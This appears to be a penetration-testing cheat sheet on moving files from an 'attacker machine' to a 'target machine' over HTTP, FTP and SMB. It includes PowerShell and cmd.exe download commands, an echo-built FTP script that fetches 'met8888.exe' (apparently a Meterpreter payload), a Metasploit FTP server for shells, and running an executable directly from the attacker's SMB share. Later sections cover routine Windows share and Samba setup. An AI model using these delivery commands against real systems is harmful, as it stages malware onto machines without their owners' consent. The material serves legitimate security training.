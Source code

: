 # File Transfer

File can either be transferred by:

* Push file to target
* Have the target to pull file back

## HTTP

**On attacker machine**:

### Apache

copy file to `/var/www/html/`

Start Apache Server

> /etc/init.d/apache2 start

### Python

By running below, current directory will be accessible over HTTP

> python -m SimpleHTTPServer \[port no\]

**On target machine**:

> [http://your\_ip\_address:your\_port\_num/filename](http://your_ip_address:your_port_num/filename)

If you only have command line access in a Windows machine, use PowerShell's WebClient object:

> powershell -c "\(new-object System.Net.WebClient\).DownloadFile\('[http://your\_ip\_address:your\_port\_num/filename','C:\Users\dest\_path\file\_name](http://your_ip_address:your_port_num/filename','C:\\Users\\dest_path\\file_name)'\)"

or use cmd.exe to trigger IE

> cd Program Files\Internet Explorer start iexplore.exe \[[http://ip](http://ip) address/file\]

## FTP

### vsftpd/pytftpd

**On attacker machine**:

`vsftpd` or simply the `pytftpd` library

> apt-get install python-pyftpdlib
>
> python -m pyftpdlib -p \[port\_num\]

default port is 2121

`-w` can grant the user write access

### Metasploit

Metasploit has an ftp module `auxiliary/server/ftp`

> use auxiliary/server/ftp
>
> set FTPROOT /root/shells
>
> exploit

Can be kill with:

> jobs -k \[id\]

**On target machine**:

Type it into your cmd.exe

> echo open your\_ip\_address&gt;ftp\_commands.txt  
> echo anonymous&gt;&gt;ftp\_commands.txt  
> echo whatever&gt;&gt;ftp\_commands.txt  
> echo binary&gt;&gt;ftp\_commands.txt  
> echo get met8888.exe&gt;&gt;ftp\_commands.txt  
> echo bye&gt;&gt;ftp\_commands.txt  
> ftp -s:ftp\_commands.txt

## SMB

**On attacker machine**:

> `smbserver.py shareName sharePath` `(e.g. smbserver.py TMP /tmp)`

Check with smbclient

> `smbclient -L [your ip address] --no-pass`

**On target machine**: 

> `net view \\\\[attack machine ip address]`

Copy file `copy \\[your ip address]\Sharepath .`

Or execute the file directly from SMB `\\[your ip address]\file.exe`


### Windows to Windows

Create a new local file share:

`NET SHARE work=C:\docs\work /REMARK:"work share" /CACHE:No`

Delete the share:

`NET SHARE work /DELETE`

List the File/Printer shares on a remote computer:

`NET VIEW \\ComputerName`

List all the shares in the domain:

`NET VIEW /DOMAIN`

Join a file share (Drive MAP):

`NET USE [driveletter:] \\ComputerName\ShareName`

(replace [driveletter:] with the drive letter you want to assign).


### Linux to Windows

Backup and modify `/etc/samba/smb.conf`

Add the following configuration

> [sharedname]

> path = [path to share]

> available  = yes

> valid users = [user]

> read only = no

> browsable = yes

> public = yes

> writable = yes


`smbpasswd -a [user]`

`pdbedit -L`

Restart SMB service
`service smb restart` or `sudo /etc/init.d/samba restart`

Access the IP address of the computer from Windows
